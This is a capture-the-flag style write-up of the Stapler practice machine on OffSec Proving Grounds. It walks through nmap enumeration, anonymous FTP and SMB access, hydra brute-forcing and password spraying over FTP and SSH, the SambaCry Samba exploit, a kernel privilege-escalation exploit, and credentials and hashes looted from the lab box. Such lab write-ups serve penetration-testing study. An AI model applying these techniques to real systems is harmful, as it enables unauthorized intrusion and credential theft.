

<html>
  <head>
    <link rel="icon" href="/assets/imgs/beans.png" type="image/png">
  </head>
  
</html>

[Main Page](/index)

# Stapler

---

This box is the next one up on TJ Null’s OSCP like boxes on Offsec’s proving grounds play: Stapler!

This box is full of outdated software, misconfigurations, and weak passwords with multiple paths to root. I will cover a few of them here.

## Enumeration

Let’s start with an nmap. I usually start with something like `nmap -p- --max-rate 10000` to get all the open ports, and then pipe them over to a scripts and service scan like so `nmap -p22,80,53 -sC -sV`.

The output is quite big with a lot to sift through, so I will go through it port by port.

```
21/tcp    open  ftp         vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.249
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 550 Permission denied.
```

First is FTP, which allows anonymous login. Nmap says we get `Permission Denied` when trying to list the directory, however it’s just because passive mode failed. We will look into it in a bit.

```
22/tcp    open  ssh         OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 81:21:ce:a1:1a:05:b1:69:4f:4d:ed:80:28:e8:99:05 (RSA)
|   256 5b:a5:bb:67:91:1a:51:c2:d3:21:da:c0:ca:f0:db:9e (ECDSA)
|_  256 6d:01:b7:73:ac:b0:93:6f:fa:b9:89:e6:ae:3c:ab:d3 (ED25519)
```

Next is the standard ssh, not much here besides telling us this is a linux box.

```
53/tcp    open  tcpwrapped
```

This strange service on port 53 which is usually dns but nmap’s scripts didn’t pick up on anything.

```
80/tcp    open  http        PHP cli server 5.5 or later
|_http-title: 404 Not Found
```

We have a web server on port 80 that defaults to a 404 page.

```
139/tcp   open  netbios-ssn Samba smbd 4.3.9-Ubuntu (workgroup: WORKGROUP)
```

A samba service on 139 with an older version which we will take a look at.

```
666/tcp   open  doom?
| fingerprint-strings: 
|   NULL: 
|     message2.jpgUT 
|     QWux
|     "DL[E
|     #;3[
|     \xf6
|     u([r
|     qYQq
|     Y_?n2
|     3&M~{
|     9-a)T
|     L}AJ
|_    .npy.9
```

So after seeing the `doom?` I did a bit of research and turns out id Software got the `666` tcp port registered on iana for the game `doom`! Pretty funny. Unfortunately however, it does not look like we have doom running on it :( . We get a `message2.jpg` and a bunch of random strings. We will get to these in a minute.

```
3306/tcp  open  mysql       MySQL 5.7.12-0ubuntu1
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.12-0ubuntu1
|   Thread ID: 7
|   Capabilities flags: 63487
|   Some Capabilities: LongColumnFlag, ODBCClient, IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, Support41Auth, FoundRows, Speaks41ProtocolOld, SupportsCompression, Speaks41ProtocolNew, SupportsTransactions, DontAllowDatabaseTableColumn, InteractiveClient, SupportsLoadDataLocal, LongPassword, IgnoreSigpipes, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: +\x03|@k0M}wQvd\x19ll\\x08e*k
|_  Auth Plugin Name: mysql_native_password
```

Looks like a typical mysql server with a slightly older version. 5.7 reached it’s EOL in 2023.

```
12380/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Tim, we need to-do better next year for Initech
```

And lastly an interestingly another web server on this high port.

So that’s a lot to take in and leaves us with a very big question of where to begin!

Let’s start with FTP since it allows anonymous login.

```
$ ftp 192.168.196.148
Connected to 192.168.196.148.
220-
220-|-----------------------------------------------------------------------------------------|
220-| Harry, make sure to update the banner when you get a chance to show who has access here |
220-|-----------------------------------------------------------------------------------------|
220-
220
Name (192.168.196.148:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
550 Permission denied.
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             107 Jun 03  2016 note
226 Directory send OK.
ftp> get note
local: note remote: note
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note (107 bytes).
100% |***************************************************************************|   107        1.18 MiB/s    00:00 ETA
226 Transfer complete.
107 bytes received in 00:00 (1.26 KiB/s)
ftp> exit
221 Goodbye.

┌──(kali㉿DESKTOP-JETQH0C)-[~/offsec-PG/stapler]
└─$ cat note
Elly, make sure you update the payload information. Leave it in your FTP account once your are done, John.

```

So we got a note which gives us two possible users whom I will save to a possible users file for later.

Now let’s look at our web server.



A strange website that just gives us a seemingly custom 404 page. Wappalyzer tells us it running php.

Let’s bruteforce some directories


So we find these interesting `.bashrc` and `.profile` files which only appear in a linux users home directory, which tells us that the webserver is running in a users home directory. Interesting. Navigating to them in my browser still gave me a 404, but for some reason I could view them with curl. However, they did not give us much info beyond that.

Okay, so let’s check out our samba service. I first ran `enum4linux` which actually ended up giving us a whole bunch of stuff. Most noteably:

```
        Sharename       Type      Comment                                                                                                    
        ---------       ----      -------                                                                                                    
        print$          Disk      Printer Drivers                                                                                            
        kathy           Disk      Fred, What are we doing here?                                                                              
        tmp             Disk      All temporary files should be stored here                                                                  
        IPC$            IPC       IPC Service (red server (Samba, Ubuntu))
```

A list of file shares

Let’s try poking around in there!

```
$ smbclient -N //192.168.196.148/kathy
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jun  3 12:52:52 2016
  ..                                  D        0  Mon Jun  6 17:39:56 2016
  kathy_stuff                         D        0  Sun Jun  5 11:02:27 2016
  backup                              D        0  Sun Jun  5 11:04:14 2016

                19478204 blocks of size 1024. 16128488 blocks available
smb: \>
```

We can access the kathy share with no credentials! A finding.

```
smb: \backup\> ls
  .                                   D        0  Sun Jun  5 11:04:14 2016
  ..                                  D        0  Fri Jun  3 12:52:52 2016
  vsftpd.conf                         N     5961  Sun Jun  5 11:03:45 2016
  wordpress-4.tar.gz                  N  6321767  Mon Apr 27 13:14:46 2015

                19478204 blocks of size 1024. 16129088 blocks available
```

In the backup folder we have a zip archive of wordpress. I tried poking around in it a bit but didn’t find much. The `vsftpd.conf` file gave us some info though as it is the FTP service’s whole configuration. Massive oopsie on their part. Here are some lines that stuck out to me

```
anonymous_enable=YES                                                                                                    
anon_root=/var/ftp/anonymous
```

This part tells us where we are on the file system when we ftp!

```
# You may restrict local users to their home directories.  See the FAQ for                                              
# the possible risks in this before using chroot_local_user or                                                          
# chroot_list_enable below.                                                                                             
chroot_local_user=YES                                                                                                  
userlist_enable=YES                                                                                                     
local_root=/etc
```

And this part tells us that we can ftp as different users and get access to their home directory! Which is what I suspected from the note we got: `Leave it in your FTP account once your are done, John.` This also triggers the misconfiguration alarm in my brain, as the webserver on port 80 is running out of a users home directory which we found out earlier. Meaning possible RCE, if we can takeover the account running the server, via a php shell upload through ftp. In hindsight, I ended up forgetting to test this lol.

We also found another note which wasn’t of much importance.

```
smb: \kathy_stuff\> ls
  .                                   D        0  Sun Jun  5 11:02:27 2016
  ..                                  D        0  Fri Jun  3 12:52:52 2016
  todo-list.txt                       N       64  Sun Jun  5 11:02:27 2016                                                                                                                                        
  478204 blocks of size 1024. 16129088 blocks available
```

```
$ cat todo-list.txt
I'm making sure to backup anything important for Initech, Kathy
```

Enum4linux also got us an entire list of users on the box!

```
S-1-22-1-1000 Unix User\peter (Local User)                                                                                           
S-1-22-1-1001 Unix User\RNunemaker (Local User)                                                                                      
S-1-22-1-1002 Unix User\ETollefson (Local User)                                                                                      
S-1-22-1-1003 Unix User\DSwanger (Local User)                                                                                        
S-1-22-1-1004 Unix User\AParnell (Local User)                                                                                        
S-1-22-1-1005 Unix User\SHayslett (Local User)                                                                                       
S-1-22-1-1006 Unix User\MBassin (Local User)                                                                                         
S-1-22-1-1007 Unix User\JBare (Local User)                                                                                           
S-1-22-1-1008 Unix User\LSolum (Local User)                                                                                          
S-1-22-1-1009 Unix User\IChadwick (Local User)                                                                                       
S-1-22-1-1010 Unix User\MFrei (Local User)                                                                                           
S-1-22-1-1011 Unix User\SStroud (Local User)                                                                                         
S-1-22-1-1012 Unix User\CCeaser (Local User)                                                                                         
S-1-22-1-1013 Unix User\JKanode (Local User)                                                                                         
S-1-22-1-1014 Unix User\CJoo (Local User)                                                                                            
S-1-22-1-1015 Unix User\Eeth (Local User)                                                                                            
S-1-22-1-1016 Unix User\LSolum2 (Local User)                                                                                         
S-1-22-1-1017 Unix User\JLipps (Local User)                                                                                          
S-1-22-1-1018 Unix User\jamie (Local User)                                                                                           
S-1-22-1-1019 Unix User\Sam (Local User)
S-1-22-1-1020 Unix User\Drew (Local User)
S-1-22-1-1021 Unix User\jess (Local User)
S-1-22-1-1022 Unix User\SHAY (Local User)
S-1-22-1-1023 Unix User\Taylor (Local User)
S-1-22-1-1024 Unix User\mel (Local User)
S-1-22-1-1025 Unix User\kai (Local User)
S-1-22-1-1026 Unix User\zoe (Local User)
S-1-22-1-1027 Unix User\NATHAN (Local User)
S-1-22-1-1028 Unix User\www (Local User)
S-1-22-1-1029 Unix User\elly (Local User)
```

Sick! We can go ahead and add these to our users file. Another way we could’ve gotten these was through using hydra on our elly account on ftp! This is through a cool flag I didn’t know about until reading a writeup for this machine once I finished it.

```
$ hydra -e nsr -l elly 192.168.217.148 ftp
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-15 11:52:08
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:1/p:3), ~1 try per task
[DATA] attacking ftp://192.168.217.148:21/
[21][ftp] host: 192.168.217.148   login: elly   password: ylle
```

With the `-e nsr` flag, hydra checks for a null password, checks if the username is used as the password, and checks of the password is the username but in reverse. You can always learn something from writeups, even if you’ve already rooted a box.

So after logging into elly’s ftp account we get this:

```
$ ftp 192.168.217.148                                                                                                 
Connected to 192.168.217.148.                                                                                           
220-                                                                                                                    
220-|-----------------------------------------------------------------------------------------|                         
220-| Harry, make sure to update the banner when you get a chance to show who has access here |                         
220-|-----------------------------------------------------------------------------------------|                         
220-                                                                                                                    
220                                                                                                                     
Name (192.168.217.148:kali): elly                                                                                       
331 Please specify the password.                                                                                        
Password:                                                                                                               
230 Login successful.                                                                                                   
Remote system type is UNIX.                                                                                             
Using binary mode to transfer files.                                                                                    
ftp> ls                                                                                                                 
550 Permission denied.                                                                                                  
200 PORT command successful. Consider using PASV.                                                                       
150 Here comes the directory listing.                                                                                   
drwxr-xr-x    5 0        0            4096 Jun 03  2016 X11                                                             
drwxr-xr-x    3 0        0            4096 Jun 03  2016 acpi                                                            
-rw-r--r--    1 0        0            3028 Apr 20  2016 adduser.conf   
<snip>
drwxr-xr-x    4 0        0            4096 May 05  2021 vmware-tools
-rw-r--r--    1 0        0             278 Jun 03  2016 vsftpd.banner
-rw-r--r--    1 0        0               0 Jun 03  2016 vsftpd.chroot_list
-rw-r--r--    1 0        0            5961 Jun 04  2016 vsftpd.conf
-rw-r--r--    1 0        0               0 Jun 03  2016 vsftpd.user_list
lrwxrwxrwx    1 0        0              23 Jun 03  2016 vtrgb -> /etc/alternatives/vtrgb
-rw-r--r--    1 0        0            4942 Jan 08  2016 wgetrc
drwxr-xr-x    3 0        0            4096 Jun 03  2016 xdg
drwxr-xr-x    2 0        0            4096 Jun 03  2016 xml
drwxr-xr-x    2 0        0            4096 Jun 03  2016 zsh
226 Directory send OK.                                                 
```

I snipped the output to the ls command as it was quite long! But upon investigation we can clearly see that we are in the `/etc/` directory on the box! Big woopsie. We can read a whole bunch of info on the box from this, such as all of the users from the `/etc/passwd` file. These are the same users that we were able to enumerate from the samba share.

```
ftp> get passwd                                                                                                         
local: passwd remote: passwd                                                                                            
200 PORT command successful. Consider using PASV.                                                                       
150 Opening BINARY mode data connection for passwd (2908 bytes).                                                        
100% |***************************************************************************|  2908        8.10 MiB/s    00:00 ETA 226 Transfer complete.                                                                                                  
2908 bytes received in 00:00 (34.43 KiB/s)                                                                              ftp>
```

We can run hydra once again but now with our users and with our new flag that we learned on the SSH service:

```
$ hydra -L users.out -e nsr 192.168.217.148 ssh -I
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-15 12:04:09
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 84 login tries (l:28/p:3), ~6 tries per task
[DATA] attacking ssh://192.168.217.148:22/
[22][ssh] host: 192.168.217.148   login: SHayslett   password: SHayslett
```

Looks like the `SHayslett` user has their username as a password! Never a good idea.

## Foothold & Privilege Escalation

Okay so now we have a foothold. But before we go into our privilege escalation section I want to take a step back and show how I originally rooted the box.

Looking back at our samba version:

```
139/tcp   open  netbios-ssn Samba smbd 4.3.9-Ubuntu (workgroup: WORKGROUP)
```

We can google and find an exploit for metasploit using the `is_known_pipiname()` Arbitrary Module Load vulnerability.


The cve is CVE-2017-7494 and was the vulnerability abused in SambaCry, the WannaCry for Samba.

Description:

> All versions of Samba from 3.5.0 onwards are vulnerable to a remote
code execution vulnerability, allowing a malicious client to upload a
shared library to a writable share, and then cause the server to load
and execute it.
> 


Boom! Shell!

```
root@red:/root# cat proof.txt
cat proof.txt
31d146670fcc40b79f6a9a2ded686f79
root@red:/root#
```

Boom! Flag! However, this is not the only way to root this box.

Going back to our `SHayslett` user which we pwned we can login to SSH.

After running linpeas we get a tooonnnnn of stuff to possibly use to get root. The first one that stands out is this one:


And after running searchsploit for `Ubuntu 16.04` we find  this exploit:

```
Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fdput()' bpf(BPF_PROG_LOAD) Privilege Escalation       | linux/local/39772.txt
```

We can compile and execute it like so

```
./compile.sh
./doubleput
```

There are also a bunch of other kernel exploits like `pwnkit`. I actually crashed the machine trying to run `Dirty Cow` lol. A lesson to learn from and to never do in a real pentesting environment. But hey, that’s what practice is all about!

Anyway, linpeas grabs us a bunch of other stuff too such as:

```
╔══════════╣ Searching passwords in history files                                                                       
/home/JKanode/.bash_history:sshpass -p thisimypassword ssh JKanode@localhost                                            
/home/JKanode/.bash_history:sshpass -p JZQuyIN5 ssh peter@localhost 
```

We can view `JKanode`’s history file! They passed some ssh passwords as a commandline argument. Another oopsie! We can pwn their accounts now too.

Once in peter’s account:

```
red% sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.                                                                                              #3) With great power comes great responsibility.

[sudo] password for peter:
Matching Defaults entries for peter on red:
    lecture=always, env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User peter may run the following commands on red:
    (ALL : ALL) ALL
```

Peter can run anything as sudo! Which we can use to get root as well.

We also got the credentials to the mysql database from linpeas:

```
-rw-r--r-- 1 root root 3042 Jun  4  2016 /var/www/https/blogblog/wp-config.php                                          
define('DB_NAME', 'wordpress');                                                                                         
define('DB_USER', 'root');                                                                                              
define('DB_PASSWORD', 'plbkac');                                                                                        
define('DB_HOST', 'localhost');
```

Ahh hard coded credentials. You never fail to disappoint ;)

I am assuming the wordpress site is what is running on our 12380 port which looks like this:


I didn’t dig too much here because, to be honest, I didn’t have too and I don’t know much about wordpress sites. But we do have a little easter egg in the code.


After reading another writeup, there is more we could have enumerated on this wordpress site. The link is at the bottom.

Anyway, we can login to the mysql database now with the root user from either locally on the box or from our attack box.

```
SHayslett@red:~$ mysql -u root -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 8
Server version: 5.7.12-0ubuntu1 (Ubuntu)

Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved.
                                                                                                                        Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| loot               |
| mysql              |
| performance_schema |
| phpmyadmin         |
| proof              |
| sys                |
| wordpress          |
+--------------------+
8 rows in set (0.01 sec)
```

```
mysql> show tables;
+-----------------+
| Tables_in_proof |
+-----------------+
| message         |
+-----------------+
1 row in set (0.00 sec)

mysql> select * from message;
+--------------------------------------------------------------------------+
| text                                                                     |
+--------------------------------------------------------------------------+
| Vicki, You really need to sort out this database when you get the chance |
+--------------------------------------------------------------------------+
1 row in set (0.00 sec)
```

```
mysql> select * from wp_users;
<...snip...>
| 11 | ZOE        | $P$B.gMMKRP11QOdT5m1s9mstAUEDjagu1 | zoe           | zoe@red.localhost     |                  | 2016-06-05 16:19:50 |                     |           0 | ZOE             |
| 12 | Dave       | $P$Bl7/V9Lqvu37jJT.6t4KWmY.v907Hy. | dave          | dave@red.localhost    |                  | 2016-06-05 16:20:09 |                     |           0 | Dave            |
| 13 | Simon      | $P$BLxdiNNRP008kOQ.jE44CjSK/7tEcz0 | simon         | simon@red.localhost   |                  | 2016-06-05 16:20:35 |                     |           0 | Simon           |
| 14 | Abby       | $P$ByZg5mTBpKiLZ5KxhhRe/uqR.48ofs. | abby          | abby@red.localhost    |                  | 2016-06-05 16:20:53 |                     |           0 | Abby            |
| 15 | Vicki      | $P$B85lqQ1Wwl2SqcPOuKDvxaSwodTY131 | vicki         | vicki@red.localhost   |                  | 2016-06-05 16:21:14 |                     |           0 | Vicki           |
| 16 | Pam        | $P$BuLagypsIJdEuzMkf20XyS5bRm00dQ0 | pam           | pam@red.localhost     |                  | 2016-06-05 16:42:23 |                     |           0 | Pam             |
+----+------------+------------------------------------+---------------+-----------------------+------------------+---------------------+---------------------+-------------+-----------------+
16 rows in set (0.00 sec)
```

Nice! All of the users and their password hashes as well as their emails. And after digging around further we also have access to entries like such as payment history and other sensitive information. A goldmine!

Well anyway, since we could login to the sql database as root, I tried ssh’ing into root as well but it didn’t work. So I instead just sprayed the password to the other accounts.

```
$ hydra -L users.out -p plbkac 192.168.217.148 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-15 12:19:20
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28 login tries (l:28/p:1), ~2 tries per task
[DATA] attacking ssh://192.168.217.148:22/
[22][ssh] host: 192.168.217.148   login: zoe   password: plbkac
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-15 12:19:35
```

Wow! A hit. Zoe didn’t have many privileges, but we pwned her account.

## Unanswered Questions…

Well that was the box mostly! The only other ports were 53 and 666. 53 returned nothing no matter what I through at it (it would just disconnect instantly) so I wasn’t sure what it was for. 

Port 666 turned out to have something for us:


It pukes up a bunch of nonsense at us when we connect, so let’s see what it actually is. We can do this by directing the output to a file and checking the file type.

```
┌──(kali㉿DESKTOP-JETQH0C)-[~/offsec-PG/stapler]
└─$ nc 192.168.196.148 666 > out

┌──(kali㉿DESKTOP-JETQH0C)-[~/offsec-PG/stapler]
└─$ file out
out: Zip archive data, at least v2.0 to extract, compression method=deflate
```

A zip file!

```
┌──(kali㉿DESKTOP-JETQH0C)-[~/offsec-PG/stapler]
└─$ mv out out.zip

┌──(kali㉿DESKTOP-JETQH0C)-[~/offsec-PG/stapler]
└─$ unzip out.zip
Archive:  out.zip
  inflating: message2.jpg

┌──(kali㉿DESKTOP-JETQH0C)-[~/offsec-PG/stapler]
└─$ ls
message2.jpg
```

This file is what was hinted at to us from the nmap scan as well as as the top of the netcat output. The image looks like this:


Not much here either, besides the question of how the hell they managed to get a segmentation fault from an echo command lol. However, we do get a little easter egg upon running `exiftool`.

```
┌──(kali㉿DESKTOP-JETQH0C)-[~/offsec-PG/stapler]
└─$ exiftool message2.jpg
ExifTool Version Number         : 13.00
File Name                       : message2.jpg
Directory                       : .
File Size                       : 13 kB
File Modification Date/Time     : 2016:06:03 11:03:07-04:00
File Access Date/Time           : 2025:03:13 20:20:16-04:00
File Inode Change Date/Time     : 2025:03:13 20:19:02-04:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 72
Y Resolution                    : 72
Current IPTC Digest             : 020ab2da2a37c332c141ebf819e37e6d
Contact                         : If you are reading this, you should get a cookie!
Application Record Version      : 4
IPTC Digest                     : d41d8cd98f00b204e9800998ecf8427e
Warning                         : IPTCDigest is not current. XMP may be out of sync
Image Width                     : 364
Image Height                    : 77
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 364x77
Megapixels                      : 0.028
```

Yay! A cookie for us!

## Conclusion

This was a fun box to go through. It was a little overwhelming considering how much there was to dig through, but it’s multiple ways to root made it a fun challenge even after rooting it the first time. I recommend reading [this walkthrough](https://coursecloud.org/wp-content/uploads/2021/02/Lab-CTF-Stapler-1.pdf) where they demonstrate an initial foothold by exploiting the wordpress site.

Thanks for reading! Cheers
